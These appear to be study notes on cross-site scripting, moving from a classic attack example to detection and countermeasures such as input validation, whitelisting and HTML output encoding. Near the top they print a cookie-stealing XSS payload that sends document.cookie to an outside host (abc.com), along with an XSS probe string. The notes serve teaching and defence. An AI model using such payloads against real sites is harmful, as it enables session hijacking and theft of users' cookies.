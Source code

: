 
One of the classic attacks:

getting access to “`document.cookie`” and sending it to a remote host.
- used the following in a form field entry instead of providing your name:
- `&lt;script;window.open#40;&quot;http://abc.com/getcookie.acookie=&quot;+document.cookie#41;&lt;/script&gt;`
- Should the app be vulnerable to XSS, the Java script entered (converted to HTML entities where appropriate—how fun!) will be run and you can obtain cookies from users accessing the page later


---

### what you can do with it

Recognize URL indicator of an XSS attempt:
- `http://IPADDRESS/′′;!- -′′<XSS>=&{()}`
- XSS attempts pop up all over the place in in all sorts of formats.



### How to Determine Vulnerable
- perform a `security review of the code`
- search for `all places where input from an HTTP request` could possibly make its way into the HTML output.
- `variety of different HTML tags can be used to transmit a malicious JavaScript`.
- Nessus, Nikto, and some other available tools can help scan a website for these flaws, but can only scratch the surface.
- If one part of a website is vulnerable, there is a high likelihood that there are other problems as well.


---

## Part Three: Preventing XSS


### Countermeasures

1. Don’t trust input

2. **Input validation** `The primary protection`
   - the web application with sophisticated `input validation techniques`.
   - `constrain 约束 and sanitize` the input data stream,
   - `Validation, filters the user input` so that the browser interprets it as code without malicious commands.
   - All input data should be `checked for data type, format, range, and irregular expressions`.
   - `Whiltelist` of allowed values
   - `avoid methods that allow the web page to display untrusted data`.
   - Input originating from server controls should be subject to `ASP.NET validator controls` such as `RangeValidator`.

3. use a **security encoding library** `OWASP strongly recommends`
   - escapes user input so the browser `interprets it as data, not as code`
   - encoding library will `sanitize HTML code`
   - `encode output` that contains user input data or data from databases.
   - `HtmlEncode`: encode characters with special designations in HTML
     - obscuring executable code that would otherwise be run.
     - `Label1.Text = “This is output:” + Server.HtmlEncode(TextBox1.Text);`
   - Replace "<" and ">" characters with "& lt;" and "& gt;" using server scripts
